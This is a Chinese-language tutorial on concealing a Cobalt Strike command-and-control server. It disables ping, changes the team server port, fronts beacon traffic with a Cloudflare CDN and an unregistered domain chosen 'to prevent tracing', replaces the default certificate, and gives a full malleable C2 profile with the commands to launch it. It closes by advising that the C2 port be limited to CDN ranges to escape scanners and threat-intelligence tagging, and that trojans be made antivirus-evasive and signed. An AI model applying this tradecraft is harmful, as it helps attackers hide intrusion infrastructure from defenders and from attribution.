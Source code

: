 服务器禁ping

当服务器禁ping后，从某种角度可以判定为主机为不存活状态

临时禁ping

将/proc/sys/net/ipv4/icmp_echo_ignore_all文件里面的0临时改为1，从而实现禁止ICMP报文的所有请求，达到禁止Ping的效果，网络中的其他主机Ping该主机时会显示“请求超时”，但该服务器此时是可以Ping其他主机的。
Default
#禁ping
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all
#启用ping
echo 0 > /proc/sys/net/ipv4/icmp_echo_ignore_all

永久禁ping
Default
#编辑配置
vim /etc/sysctl.conf
#设置禁ping（如果有此配置就无需重复添加，仅更新值即可）
net.ipv4.icmp_echo_ignore_all = 1
#刷新配置
sysctl -p
 
#启用ping
net.ipv4.icmp_echo_ignore_all = 0

IPTABLES防火墙禁ping

注：使用以下方法的前提是内核配置是默认值，也就是内核没有禁ping
Default
设置禁ping
iptables -A INPUT -p icmp --icmp-type 8 -s 0/0 -j DROP
启用ping
iptables -D INPUT -p icmp --icmp-type 8 -s 0/0 -j ACCEPT
 
#参数备注
-A：添加防火墙规则.
INPUT：入站规则.
-p icmp：指定包检查的协议为ICMP协议.
--icmp-type 8：指定ICMP类型为8.
-s：指定IP和掩码，“0/0”表示此规则针对所有IP和掩码.
-j：指定目标规则，即包匹配则应到做什么，"DROP"表示丢弃，"ACCEPT"表示接受

ps：通过修改配置方式禁止ping后，内部ping也将失效，通过防火墙方式禁止ping后，可以ping自己内部网络。

修改端口

CobaltStrike的连接端口默认为50050，这是个很明显的特征，可以通过编辑cobalt strike目录下的teamserver文件，搜索50050，将其改为任意端口即可，这里改成10086：
再次启动后可以看到端口已经发生变化：

流量特征修改

Domain+CDN

需要用到一个域名，最好选择未备案域名，以防溯源。不建议freenom的免费域名，可以到godaddy或者hostinger注册便宜的域名，可以选择一些与项目相关或者高可信度的域名。
关于CDN不建议使用国内的，虽然便宜，但是不支持非80端口的代理，且有信息泄露的风险。建议使用cloudflare的免费CDN，够用而且支持其他端口加速。注意在域名提供商处修改DNS解析需要一段时间生效。
dns配置：在Cloudflare添加A类型记录，自定义二级域名指向你的服务器真实IP
缓存 –> 配置选项中需要以下两项为开启状态
此处开发模式会在三小时后自动关闭，可以在规则中添加网站缓存级别为绕过,这点很重要！！！

证书配置

首先修改 SSL/TLS 加密模式为完全，在源服务器中创建证书
私钥类型选择ECC，并保存.pem和.key文件并上传到服务器,先删除cobalstrike默认的cobalstrike.store并使用命令重新生成
Default
openssl pkcs12 -export -in server.pem -inkey server.key -out xxx.xxx.com.p12 -name xxx.xxx. -passout pass:123456
 
#将证书打包并生成store文件
 
keytool -importkeystore -deststorepass 123456 -destkeypass 123456 -destkeystore cobaltstrike.store -srckeystore xxx.xxx.com.p12 -srcstoretype PKCS12 -srcstorepass 123456 -alias xxx.xxx.com
 
curl https://127.0.0.1:10086 -v -k

C2.profile配置

可使用C2concealer项目动态生成
Default
git clone https://github.com/FortyNorthSecurity/C2concealer

或者修改下面c2.profile文件，其中client.header中Host的值要为我们申请的域名，其他的部分，根据个人情况去配置。
Default
https-certificate {
    set keystore "cobaltstrike.store";
    set password "123456";
}
http-stager {
    set uri_x86 "/api/1";
    set uri_x64 "/api/2";
    client {
        header "Host" "xxx.xxx.com";}
    server {
        output{
        print;
        }
    }
        }
http-get {
    set uri "/api/3";
    client {
        header "Host" "xxx.xxx.com";
        metadata {
            base64;
            header "Cookie";
        }
        }
    server {
        output{
        print;
        }
    }
        }
http-post {
    set uri "/api/4";
    client {
        header "Host" "xxx.xxx.com";
        id {
            uri-append;
        }
        output{
        print;
        }
    }
    server {
        output{
        print;
        }
    }
}

可使用命令检查c2.profile配置文件是否正确
Default
./c2lint c2.profile

最后可利用命令启动cobaltstrike
Default
./teamserver ip passwd ./c2.profile

通过curl https://127.0.0.1:443 -v -k
可以看到https上线的监听端口证书信息已经更改：

监听器

正常配置就好，只是注意cloudflare免费版本只支持解析少量的端口，具体端口如下
Default
http:
80、8080、8880、2052、2082、2086、2095
https:
443、2053、2083、2087、2096、8443

流量检测

正常上线，成功隐藏真实IP，公网IP都是CDN的IP地址

除了以上措施之外，还可以配置服务器防火墙，c2上线端口只能让CDN的IP段访问，这样可以避免被扫描器扫描到，将你的IP贴上威胁情报标签。实战过程中想要更好的隐藏还需要做好木马免杀及签名等措施。对于整个过程的可移植性，只需要打包CobaltStrike文件夹部署在不同的服务器，并更新DNS解析即可。
